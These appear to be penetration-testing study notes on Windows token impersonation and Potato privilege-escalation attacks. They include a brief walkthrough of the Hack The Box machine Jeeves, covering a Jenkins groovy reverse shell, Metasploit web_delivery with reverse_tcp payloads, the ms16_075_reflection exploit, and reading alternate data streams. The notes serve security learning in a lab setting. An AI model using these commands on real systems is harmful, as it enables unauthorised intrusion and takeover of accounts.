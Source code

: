 ### Token Impersonation and Potatoe attacks

Token Impersonation  
&ensp;In a meterpreter session you can use the following different commands.  
&ensp;&ensp;`load incognito`  
&ensp;&ensp;`list_tokens -u`  
&ensp;&ensp;`impersonate_token DOMAIN\\user`  
&ensp;&ensp;&ensp;This should impersonate the token you select.  
&ensp;In meterpreter  
&ensp;&ensp;getprivs  
&ensp;In cmd or shell  
&ensp;&ensp;whoami /priv  
&ensp;You're looking for one of two statuses to be able to pull off a certain attack.  
&ensp;&ensp;`SeImpersonate` or `SeAssignPrimaryToken`  

Potato Attacks  
&ensp;Potato attack takes advantage of these privileges.  It negotiates an NT Auth Sys token and uses that to impersonate it with an account that has either of those two privleges.


Rotten Potato - https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

Juicy Potato - https://github.com/ohpe/juicy-potato

#### HTB Jeeves

Nmap  
Dirbuster on 50000  
Manage Jenkins > script console  
reverse shell groovy  
enumeration (whoami /priv)  
&ensp;windows-exploit-suggester.py   (in meterpreter, `run post/multi/recon/local_exploit_suggester`)  
Metasploit potato attack  
&ensp;use exploit/multi/script/web_delivery  
&ensp;show targets - set to PSH (powershell)  
&ensp;set payload windows/ meterpreter/reverse_tcp  
&ensp;use exploit/windows/local/ms16_075_reflection  
&ensp;set payload for reverse_tcp  
&ensp;&ensp;Run token impersonation from the top  

Alternate Data Streams  

dir /R - will give you more info about the file and show any alternate data streams  

`more < ht.txt:root.txt:$DATA`  

Alternate Data Streams - https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/